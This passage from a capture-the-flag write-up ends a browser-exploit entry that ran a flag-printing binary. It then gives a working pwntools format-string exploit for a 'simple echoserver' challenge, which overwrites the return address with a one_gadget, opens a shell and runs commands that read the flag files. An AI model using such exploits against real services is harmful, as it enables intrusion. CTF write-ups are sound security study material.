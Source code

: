 ```html
            print("Done.");
        })();
    </script>

</html>
```

The exploit will execute `system("./flag_printer")` and gave us the flag: `flag{029fd0ab84ea6e42a64d13b6150e1}`




### simple echoserver

* Fmt string change rbp chain can overwrite stack.
* Use fmt string %*d to print the count of the lower 4 bytes of main_ret address.
* Change main_ret to one_gadget ,then get the shell.
* need a stack lsb bruteforce & (main_ret_address & 0xffffffff) < 0x80000000 (1/32)

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = 'pwnable.org'
port = 12020

binary = "./simple_echoserver"
context.binary = binary
elf = ELF(binary)

if len(sys.argv) == 1:
  r = process([binary, "0"], env={"LD_LIBRARY_PATH":"."})

else:
  r = remote(host ,port)

if __name__ == '__main__':
  r.recvuntil("name: ")
  r.sendline("%c"*17 + "%" + str(0x48-17-13) + "c%hhn" + "%c"*27 + "%" + str(0x4f322 - 0x21b97-27-0x48) + "c%*d" + "%39$n")
  r.recvuntil(": ")
  r.sendline("A")
  print("fuuuckkkkk")
  r.recvuntil("ourself!\n")
  r.sendline("~.")
  try:
    r.sendline("echo AAAA")
    r.recvuntil("AAAA")
  except:
    r.close()
    exit()
  print("shellllll")
  r.sendline("ls")
  r.sendline("ls /home")
  r.sendline("ls /home/*")
  r.sendline("cat /flag")
  r.sendline("cat /f*")
  r.sendline("cat /home/*/flag")
  r.sendline("cat /home/*/f*")

  r.interactive()

```